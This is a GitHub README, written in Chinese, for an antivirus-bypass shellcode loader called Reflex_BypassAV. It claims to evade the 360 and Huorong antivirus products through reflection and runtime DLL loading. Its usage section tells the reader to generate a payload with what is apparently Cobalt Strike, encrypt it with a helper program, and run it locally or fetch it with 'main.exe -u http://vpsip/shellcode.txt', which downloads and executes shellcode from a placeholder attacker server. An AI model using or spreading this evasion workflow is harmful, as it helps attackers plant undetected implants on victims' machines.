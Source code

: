 # Reflex_BypassAV

***

三月份写的一个简单的免杀加载器，可以过360、火绒。

<img src="./img.jpeg">

原理就是使用反射调用加载好的函数，然后dll是在代码运行期间加载

<img src="./img1.jpg">

<img src="./img2.jpg">

使用：

```
cs生成c格式payload，只留下payload。

对shellcode进行加密，会在当前目录生成shellcode.txt
jiami.exe jia payload.c

对shellcode进行解密，会在当前目录生成shellcode.txt
jiami.exe jie payload.c

使用本地加载shellcode
main.exe -f shellcode.txt

远程请求加载shellcode
main.exe -u http://vpsip/shellcode.txt
```

